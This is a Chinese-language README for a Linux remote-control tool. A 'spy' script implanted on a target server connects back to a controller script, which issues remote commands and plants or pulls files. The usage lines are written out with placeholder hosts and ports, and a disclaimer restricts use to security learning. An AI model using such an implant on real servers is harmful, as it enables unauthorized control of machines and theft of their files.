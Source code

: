 # Remote Control For Linux Server

## 1. 功能

- 远程命令

- 文件植入

- 文件获取

## 2. 使用

### 2.1. 前提

**大前提**：假设间谍脚本`spy.py`已经植入目标服务器，即已经在远端执行了`python2 spy.py -h <host> -p <port>`

### 2.2. 查看帮助

```
$ python2 ins.py
```
![](./img/usage.png)

### 2.3. 远程命令

指挥部执行如下指令：

```shell
$ python2 ins.py -h <host> -p <port> -l <listen-num> -c
```

![](./img/send_cmd.png)

### 2.4. 文件获取/植入

指挥部用两个终端开放两个端口，分别用于远程命令与文件操作，以文件获取为例（如下图左侧的上、下终端）。

左上终端成功建立会话并确认间谍脚本位置后，发送如下命令，使远端与指挥部建立一个新的会话用于文件传输。

```shell
$ python2 <spy-dir> -h <host> -p <new-port> -u <up-file-dir>
```

左下终端开放新端口，等待远端与之建立连接后进行文件传输。

```shell
$ python2 ins.py -h <host> -p <new-port> -d <down-file-dir>
```

![](./img/send_file_edited.png)

文件植入同理。

## 3. 声明

本程序仅供网络安全与socket编程相关的学习交流使用，不得用于一切不正当用途。
未经授权擅自使用，后果自负。
